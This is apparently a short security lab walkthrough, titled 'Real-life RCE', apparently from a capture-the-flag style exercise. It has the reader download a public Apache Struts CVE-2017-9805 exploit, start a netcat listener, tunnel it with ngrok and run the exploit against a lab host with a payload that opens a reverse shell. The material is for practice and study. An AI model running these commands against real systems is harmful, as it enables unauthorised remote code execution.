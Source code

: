 # Lab 5. Real-life RCE

Download [the exploit](https://github.com/chrisjd20/cve-2017-9805.py/blob/master/cve-2017-9805.py).

Take a look at https://dev.northpolechristmastown.com. Notice "Apache Struts" at the bottom of the page.

Start a netcat listener:
```
nc -nlvp 1337
```

Download and configure [ngrok](https://ngrok.com). Then run it in another shell and note the listening address and port number:
```
ngrok tcp 1337
```

Run the exploit:
```
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders -c 'nc -e /bin/sh <address> <port>'
```
